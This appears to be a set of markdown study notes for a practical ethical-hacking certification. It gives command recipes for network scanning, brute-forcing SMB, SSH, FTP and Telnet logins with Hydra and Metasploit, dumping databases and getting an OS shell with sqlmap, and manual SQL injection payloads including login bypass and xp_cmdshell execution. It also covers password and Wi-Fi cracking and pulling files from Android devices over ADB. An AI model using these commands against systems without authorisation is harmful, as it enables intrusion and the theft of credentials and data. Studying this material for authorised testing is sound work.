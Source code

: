 # Scanning
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
```console
netdiscover -r x.x.x.1/24
```
## Nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# Credentials SMB Cracking

## Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
# Bruteforce SSH, TELNET, FTP  

## SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
## FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt
```

# Vulnerability Scanning 

##  Nessus
```console
Nessus runs on https[:]//localhost[:]8834
```

##  nikto -h 
```console

```
# Hidden text

## Snow

```console
snow -C -p "magic" readme2.txt
```

## steghide 
```console
```

# WIRESHARK

```console
To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21
```

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

# SQL 

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

# PASSWORD CRACKING 

## john

```console
john --single --format=md5crypt crack.txt
```

# WIFI ENCYRPTION CRACKING 
```console
aircrack-ng -w rockyou.txt capture-01.cap
```
# VERACRYPT 


# CUSTOM WORDLIST 

# MOBILE 

## ADB
```console
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

== resources ==

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

